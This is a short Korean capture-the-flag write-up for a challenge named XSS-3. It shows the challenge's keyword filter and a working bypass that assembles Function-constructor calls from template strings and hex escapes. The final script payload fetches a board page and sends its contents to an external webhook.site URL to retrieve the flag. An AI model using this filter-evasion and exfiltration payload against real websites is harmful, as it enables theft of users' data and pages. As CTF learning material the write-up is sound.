


## XSS-3

```python
def content_filter(c):
    c = c.lower()
    bad = ["javascript", "frame", "object", "on", "data", "base", "\\u",
           "alert", "fetch", "xmlhttprequest", "eval", "constructor"]
    bad += list("()'\"")
    return any(b in c for b in bad)
```

XSS-2보다 더 많은 필터링이 추가되었다. 그러나 이번에는 script 태그가 막혀있지 않은 모습이다. 이를 이용해 alert를 띄우는 구문을 작성해보았다.

```html
<script>
Set[`co`+`nst`+`ructor`]`\x61lert\x281\x29```
</script>
```



set.constructor 구문을 통해 alert1을 띄우는데 성공하였다. 이를 이용해 페이로드를 구성해 보았다.

```html
<script>Set[`co`+`nst`+`ructor`]`f\x65tch\x28\x27/board/0\x27\x29.then\x28e=>e.text\x28\x29\x29.then\x28e=>{f\x65tch\x28\x27https://webhook.site/45f2c625-ba52-4d6d-8cbe-d18e6db78e0a/?flag=\x27+encodeURIComp\x6fnent\x28e\x29\x29}\x29```</script>
```

위의 페이로드를  실행하게 되면 아래와 같은 결과를 얻을 수 있다.



flag를 검색해보면 마지막 부분에 flag{7525a1ac60ca2a891dc2}가 존재함을 확인 할 수 있다.
